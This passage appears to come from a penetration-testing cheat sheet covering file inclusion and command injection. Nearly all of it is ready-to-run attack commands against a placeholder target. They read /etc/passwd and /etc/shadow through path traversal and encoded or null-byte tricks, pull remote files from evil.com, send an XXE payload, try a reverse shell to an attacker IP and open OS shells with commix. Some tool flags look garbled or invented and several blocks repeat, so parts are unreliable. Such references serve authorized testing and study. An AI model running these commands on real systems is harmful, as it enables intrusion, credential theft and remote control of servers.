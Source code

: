 

#### 3.4.2 File Inclusion (LFI/RFI)
    :- Test LFI and RFI, attempt reverse shell
    lfimap -u 'https://target.com/page?file=FUZZ' --rfi --lhost YOUR_IP --lport 4444 
    
    :- Heuristic-based LFI detection
    lfimap -u 'https://target.com/download?path=FUZZ' --heuristics --level 2
    
    :- Use custom LFI wordlist
    lfimap -u 'https://target.com/include.php?page=FUZZ' -w /usr/share/wordlists/wfuzz/general/lfi.txt 

    
    :- Directory traversal tool
    dotdotpwn -m http -h target.com -u "/scripts/download.php?file=TRAVERSAL" -k "root:" -o dotdotpwn_results.txt 
    
    :- Standard traversal, look for /etc/passwd
    dotdotpwn -m http -h target.com -f /etc/passwd -s
    ------
        lfisuite -u https://target.com/view?file=index.html -o lfi_results.txt
    fimap -u 'https://target.com/page?file=XXE' -x
    dotdotpwn -m http -h target.com -u /vuln/page?f=TRAVERSAL -k root
    ------
    lfisuite -u https://target.com/view?file=../../../../etc/passwd -o lfi_results_passwd.txt -b "root:"
    lfisuite -u https://target.com/index.php?page=http://evil.com/malicious.txt -o rfi_evil.txt -r "evil content"
    fimap -u 'https://target.com/page?file=XXE' -x -o fimap_xxe.txt --rhost evil.com --rport 8080
    fimap -u 'https://target.com/image?name=../../../../etc/shadow' --lfi-only -o fimap_lfi_shadow.txt
    dotdotpwn -m http -h target.com -u /vuln/page?f=TRAVERSAL -k root -d 5 -t 10
    dotdotpwn -m ftp -h target.com -u /../../../../etc/passwd -P 21 -k root
    ------
    lfisuite -u https://target.com/view?file=....//....//....//etc/passwd -o lfi_results_dots.txt -b "root:"
    lfisuite -u https://target.com/index.php?page=http://evil.com/malicious.txt%00 -o rfi_nullbyte.txt -r "evil content"
    fimap -u 'https://target.com/page?file=XXE' -x -o fimap_xxe_full.txt --rhost evil.com --rport 8080 --data '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><foo>&xxe;</foo>'
    fimap -u 'https://target.com/image?name=..%2f..%2f..%2f..%2fetc%2fshadow' --lfi-only -o fimap_lfi_encoded.txt
    dotdotpwn -m http -h target.com -u /vuln/page?f=TRAVERSAL -k root -d 7 -t 15 -s /usr/share/seclists/Fuzzing/LFI/LFI-paths.txt
    dotdotpwn -m ftp -h target.com -u /../../../../../../../../etc/passwd -P 21 -k root -o ftp_lfi.txt


#### 3.4.3 Command Injection
    :- Test command injection, run whoami
    commix -u "https://target.com/cmd.php?command=FUZZ" --os-cmd "whoami"
    
    :- POST based, get OS shell
    commix --url="https://target.com/exec?host=127.0.0.1" --data="host=127.0.0.1&submit=submit" -p host --os-shell 
    
